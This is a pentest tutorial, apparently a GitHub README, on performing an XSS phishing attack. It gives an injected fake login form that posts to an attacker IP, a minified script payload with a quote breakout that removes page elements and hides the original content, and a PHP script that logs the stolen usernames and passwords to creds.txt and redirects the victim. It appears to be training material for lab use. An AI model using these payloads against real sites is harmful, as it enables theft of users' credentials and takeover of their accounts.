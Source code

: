 # XSS Phishing attack.
## Attack Overview
Another very common type of XSS attack is a phishing attack. Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker.</br>
A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.
Once we identify a working XSS payload, we can proceed to the phishing attack. To perform an XSS phishing attack, we must inject an HTML code that displays a login form on the targeted page. 
This form should send the login information to a server we are listening on, such that once a user attempts to log in, we'd get their credentials.<br />
__This time our target is:__<br />
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/afc0a1f6-4b50-4f66-bb5a-db7207a3ad04" width="350">
__After injecting our payload:__
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/8e956fb4-ee2a-4678-a574-bfd36b76e41f" width="350">

## Login Form Injection
This is a simple login form that we can inject.
Code: html
```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```
After we have found the correct payload we can try to load the login form. We have to minify our html login and add it to our payload.
__Result (minified html code + XSS payload):__
```html
<script>document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>')</script>
```
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/390f7bb2-f462-4396-a6b9-86b9fcf94292
" width="350">

### Making it more realistic.
As we saw in the last picture We can still see the original web functionality, we must delete it to make our attack more realistic [Removing Elements]. We can delete part of the code that is being
shown after our injection too, to do so we only need to add a javascript comment after the payload`<!--`.
#### Removing Elements
For removing Elements we can use `document.getElementById()` function + `.remove()`.
- Obtaining the id of the element we want to remove:
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/c9e4c784-205a-4c97-8d66-641d5622e3b6" width="700"><br />
- Ading to our payload:
</br>
```html
'><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.31:443><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/c2040539-1a58-40c2-97d8-3dafc6a6535f" width="500">

## Executing the attack.
We can create a file to get and write the credentails we obtain in to a file. We will create a redirection to the original web page in the same file.
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+"); #ESCRIBIENDO LAS CREDENCIALES EN UN ARCHIVO CREDS.TXT
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php"); #REDIRECCIÓN A UNA WEB LEGÍTIMA.
    fclose($file);
    exit();
}
?>
```
Once everything is ready we can send the phishing attack to our victim and just wait listening in the selected port of our payload.
![12](https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/73ef1459-0d21-4a31-a150-f1e99496f839)

![13](https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/ad3763e1-2ee6-447c-a831-680f03f5a8e2)






